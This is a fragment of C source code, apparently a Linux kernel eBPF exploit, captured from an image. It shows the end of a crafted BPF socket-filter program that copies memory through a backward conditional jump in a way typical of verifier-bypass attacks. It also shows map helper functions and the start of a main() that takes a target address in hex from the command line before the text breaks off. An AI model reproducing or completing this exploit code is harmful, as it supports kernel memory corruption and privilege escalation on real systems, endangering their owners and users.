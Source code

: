 ``` c
		BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0x10),
		BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_6, 0x10),
		BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0x18),
		BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_6, 0x18),
		BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0x20),
		BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_6, 0x20),
		BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0x28),
		BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_6, 0x28),

		BPF_MOV64_IMM(BPF_REG_0, 0x0),
		BPF_EXIT_INSN(),
		BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, -24), // jmp1: goto jmp2

		BPF_MOV64_IMM(BPF_REG_0, 0),
		BPF_EXIT_INSN(),
	};
	return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog) / sizeof(struct bpf_insn), "GPL");
}

int write_msg(int fd)
{
	ssize_t n = write(fd, buffer, sizeof(buffer));
	if (n < 0)
	{
		perror("write");
		return 1;
	}
	if (n != sizeof(buffer))
	{
		fprintf(stderr, "short write: %ld\n", n);
	}
	return 0;
}

void update_elem(int key, size_t val)
{
	if (bpf_update_elem(mapfd, &key, &val, 0)) {
		fail("bpf_update_elem failed '%s'\n", strerror(errno));
	}
}

size_t get_elem(int fd, int key)
{
	size_t val;
	if (bpf_lookup_elem(fd, &key, &val)) {
		fail("bpf_lookup_elem failed '%s'\n", strerror(errno));
	}
	return val;
}


int main(int argc,char** argv)
{
	_mapfd[0] = bpf_create_map(BPF_MAP_TYPE_ARRAY,4,0x40,0x10,0);
	_mapfd[1] = bpf_create_map(BPF_MAP_TYPE_ARRAY,4,0x40,0x10,0);
	uint64_t result=0;
	int key;
	char buf[0x80] = {0};
	uint64_t addr = strtoul(argv[1], NULL, 16);
	int progfd = load_prog(addr);
	if (progfd < 0)
	{
```